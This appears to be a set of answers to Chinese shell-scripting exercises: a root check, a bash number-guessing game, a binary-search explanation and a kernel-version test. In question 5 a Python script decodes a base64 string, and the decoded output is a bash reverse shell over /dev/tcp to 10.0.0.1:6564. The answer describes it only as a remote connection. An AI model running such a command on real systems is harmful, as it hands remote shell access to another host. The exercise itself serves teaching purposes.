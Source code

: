 第一题答案：
[ $(id -u) -eq 0 ] && echo "hi, root" || echo $USER

第二题答案：
代码如下：
#!/bin/bash

# 生成随机数字（1-20之间）
random_number=$((RANDOM % 20 + 1))

# 游戏循环5次
for ((i=1; i<=5; i++))
do
    read -p "请输入你的猜测值（1-20之间）： " guess

    # 检查猜测值
    if [[ $guess -gt $random_number ]]; then
        echo "猜大了"
    elif [[ $guess -lt $random_number ]]; then
        echo "猜小了"
    else
        echo "猜中啦"
        exit 0
    fi
done

# 猜测五次未猜中
echo "游戏结束，正确答案是：$random_number"
exit 0


第三题答案：
如果随机猜数字范围是 0-1000，那么一共有1001个数字可供猜测。为了最快地猜中正确答案，我们可以采用二分查找的思路，每次猜测中间值，根据猜测结果不断缩小搜索范围。具体过程如下：
1、第一次猜测中间值 500。
2、如果猜测值等于正确答案，只需要猜一次就猜中了。
3、如果猜测值小于正确答案，那么下一次猜测范围可以缩小到 501-1000，因为小于 500 的数字已经被排除了。
4、如果猜测值大于正确答案，那么下一次猜测范围可以缩小到 0-499，因为大于 500 的数字已经被排除了。
5、然后我们重复步骤 1-4，每次猜测中间值，根据猜测结果不断缩小搜索范围，直到猜中正确答案为止。
6、由于每次猜测可以排除一半的数字，因此至少需要 log2(1001) ≈ 10 次猜测才能猜中正确答案。因此，最少需要猜 10 次才能猜中 0-1000 范围内的随机数字。


第四题答案：
[[ $(echo "$(uname -r | cut -d'.' -f1) > 5.4" | bc -l) -eq 1 ]] && echo "yes" || echo "no"


第五题答案：
(a)答案：
代码如下：
[root@tool_server ~]# cat jiema.py 
# -*- coding: utf-8 -*-

import base64

encoded_string = "MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMS82NTY0OyBiYXNoIDwmMTk2ID4mMTk2IDI+JjE5Ng=="
decoded_string = base64.b64decode(encoded_string).decode("utf-8")

print(decoded_string)

[root@tool_server ~]# python jiema.py 
0<&196;exec 196<>/dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196

(b) 答案：
解码后命令代表的意思是：解码后的字符串表示一个bash命令。该命令的功能是建立与IP地址为10.0.0.1，端口为6564的主机之间的TCP连接，并将连接的输入、输出和错误流重定向到该连接。这可以用于与远程主机进行通信、执行命令或传输数据。
